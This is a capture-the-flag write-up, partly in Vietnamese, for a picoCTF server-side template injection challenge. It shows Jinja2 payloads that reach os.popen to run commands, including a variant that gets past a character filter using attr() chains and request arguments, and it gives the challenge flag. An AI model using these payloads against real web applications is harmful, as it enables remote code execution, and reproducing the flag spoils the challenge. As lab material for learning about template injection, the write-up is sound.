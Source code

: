 # SSTI2 - Medium
## Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)  
I heard templating is a cool and modular way to build web apps!
## Analysis
Challenge cơ bản giống với SSTI1, nhưng lần này có thêm một vài kiểm tra với đầu vào.  
Sau một vài thử nghiệm thấy được server sẽ xóa tất cả các dấu `_`, `.`, `[` và `]` tồn tại trong đầu vào
## Solution
Nói chung, payload sẽ giống SSTI1 với một vài điều chỉnh  
Nhìn lại payload SSTI1:
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```
Các cách để bypass filter được tìm thấy tại [bài viết này](https://viblo.asia/p/server-side-template-injection-vulnerabilities-ssti-cac-lo-hong-ssti-phan-3-Ny0VGjAYLPA)
```
url: http://<host>:<port>/announce?a=__class__&b=__init__&c=__globals__
```
```
payload: {{config|attr(request|attr('args')|attr('get')('a'))|attr(request|attr('args')|attr('get')('b'))|attr(request|attr('args')|attr('get')('c'))|attr('get')('os')|attr('popen')('cat flag')|attr('read')()}}
```
## Flag
```
picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}
```